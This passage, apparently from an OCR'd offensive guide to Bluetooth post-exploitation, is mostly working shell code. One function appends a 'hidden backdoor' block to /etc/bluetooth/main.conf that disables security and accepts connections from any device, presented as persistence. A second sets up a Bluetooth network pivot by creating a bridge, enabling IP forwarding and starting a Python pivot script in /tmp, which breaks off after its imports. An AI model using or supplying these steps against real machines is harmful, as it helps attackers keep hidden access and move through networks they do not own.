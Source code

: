 \# Modify Bluetooth configuration for persistence\
config_persistence() {\
echo "Establishing configuration-based persistence..."

    \# Step 1: Backup original configuration  
    sudo cp /etc/bluetooth/main.conf /etc/bluetooth/main.conf.backup  
        
    \# Step 2: Modify configuration for backdoor access  
    cat \>\> /etc/bluetooth/main.conf \<\< 'EOF'

\# Hidden backdoor configuration\
\[General\]\
\# Enable debug mode (hidden)\
Debug=true\
\# Allow all device classes\
Class=0x000000\
\# Disable security for specific services\
Security=off

\[Policy\]\
\# Allow connections from any device\
AutoConnect=true\
ReconnectAttempts=0\
ReconnectIntervals=1,2,4,8,16\
EOF

    echo "Configuration persistence established"  

}

### **Advanced Post-Exploitation Techniques**

#### **Bluetooth Network Pivoting**

\# Use Bluetooth as network pivot point\
bluetooth_pivot() {\
echo "Setting up Bluetooth network pivot..."

    \# Step 1: Create Bluetooth PAN (Personal Area Network)  
    sudo modprobe bnep  
        
    \# Step 2: Configure bridge interface  
    sudo brctl addbr bt-bridge  
    sudo ifconfig bt-bridge up  
        
    \# Step 3: Setup routing for pivot  
    echo "1" | sudo tee /proc/sys/net/ipv4/ip\_forward  
        
    \# Step 4: Create pivot script  
    cat \> /tmp/bt\_pivot.py \<\< 'EOF'  

#!/usr/bin/env python3\
import bluetooth\
import socket\
import threading\
import select

